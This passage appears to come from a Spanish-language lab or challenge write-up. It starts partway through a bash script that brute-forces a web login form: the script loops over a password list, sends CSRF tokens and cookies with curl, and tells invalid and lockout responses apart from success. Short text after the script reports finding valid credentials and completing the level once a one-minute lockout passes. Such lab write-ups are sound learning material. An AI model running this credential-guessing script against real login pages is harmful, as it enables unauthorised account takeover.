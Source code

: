 ```bash
	    fi
    done
    if [ $VALID == 1 ]
    then
        break
    fi
done

for PASS in `cat password.txt`;do

    DATA='csrf='$CSRF'&username='$USER'&password='$PASS
    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

    if echo $RESULT | grep -o "Invalid username or password." > $NULL
    then
        echo "Incorrect creds: $USER:$PASS"
    else
        if echo $RESULT | grep -o "Please try" > $NULL
        then
            echo "Incorrect creds: $USER:$PASS"
        else
            echo "Valid creds: $USER:$PASS"
            break
        fi
    fi
done
```

Y al correrlo obtener el siguiente resultado:

![output](img17.png)

Y luego de esperar un minuto por el bloqueo, probamos las credenciales y completamos el nivel.

![check](img18.png)
